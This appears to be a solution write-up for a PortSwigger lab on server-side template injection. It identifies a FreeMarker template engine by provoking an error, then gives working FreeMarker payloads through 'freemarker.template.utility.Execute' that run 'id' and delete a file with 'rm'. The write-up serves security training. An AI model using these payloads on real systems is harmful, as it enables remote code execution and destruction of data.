 # Lab: Server-side template injection using documentation

**Link**: https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-using-documentation

**Solution**:

This lab didn’t identity which template are not used.

We to identity the template we will try cause error in the code

So if we give it to him undefined name like the following, we will now that the template it used is freemarker based on Java

<p align="center" width="100%">
  <img src="image1.png" width="800" hight="500"/>
</p>

So, based on Java payloads

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server Side Template Injection#java](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#java)

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server Side Template Injection#freemarker](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker)

we will use this command as RCE

`<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}`

<p align="center" width="100%">
  <img src="image2.png" width="800" hight="500"/>
</p>
to solve the lab we will remove txt file

`<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("rm /home/carlos/morale.txt")}.`

<p align="center" width="100%">
  <img src="image3.png" width="800" hight="500"/>
</p>
